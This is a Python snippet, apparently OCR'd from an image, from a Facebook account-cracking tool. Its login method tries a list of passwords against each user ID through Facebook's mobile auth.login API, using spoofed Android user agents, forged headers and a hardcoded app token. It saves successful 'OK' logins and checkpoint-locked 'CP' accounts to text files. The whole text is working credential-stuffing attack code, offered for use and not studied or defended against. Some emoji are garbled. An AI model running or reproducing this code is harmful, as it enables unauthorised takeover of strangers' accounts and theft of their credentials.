 
	def api(self, uid, pwx):
		ua = random.choice([
			"Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z007;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]", 
			"Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36[FBAN/EMA;FBLC/it_IT;FBAV/239.0.0.10.109;]"
		])
		sys.stdout.write(
			"\r\r %s\033[0;93m[RAIHAN馃う鈥嶁檪锔廬 : \033[0;97m %s/%s -> \033[0;92m [OK馃槏:%s ]- \033[0;93m[CP馃樋:%s ]"%(B,self.loop, len(self.id), len(self.ok), len(self.cp))
		); sys.stdout.flush()
		for pw in pwx:
			pw = pw.lower()
			ses = requests.Session()
			headers = {
				"x-fb-connection-bandwidth": str(random.randint(20000000.0, 30000000.0)), 
				"x-fb-sim-hni": str(random.randint(20000, 40000)), 
				"x-fb-net-hni": str(random.randint(20000, 40000)), 
				"x-fb-connection-quality": "EXCELLENT",
				"x-fb-connection-type": "cell.CTRadioAccessTechnologyHSDPA",
				"user-agent": ua, 
				"content-type": "application/x-www-form-urlencoded", 
				"x-fb-http-engine": "Liger"
			}
			response = ses.get("https://b-api.facebook.com/method/auth.login?format=json&email="+str(uid)+"&password="+str(pw)+"&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true", headers=headers) 
			if "session_key" in response.text and "EAAA" in response.text:
				print("\r \033[0;92m[RAIHAN-OK☺️馃槏] %s|%s\033[0;97m         "%(uid, pw))
				self.ok.append("%s|%s"%(uid, pw))
				open("ok.txt","a").write(" OK] %s|%s\n"%(uid, pw))
				break
			elif "www.facebook.com" in response.json()["error_msg"]:
				print("\r \033[0;93m[RAIHAN-🖕CP馃樋] %s|%s\033[0;97m         "%(uid, pw))
				self.cp.append("%s|%s"%(uid, pw))
				open("cp.txt","a").write(" CP] %s|%s\n"%(uid, pw))
				break
			else:
				continue

		self.loop +=1


try:Main()
except Exception as e:exit(str(e))
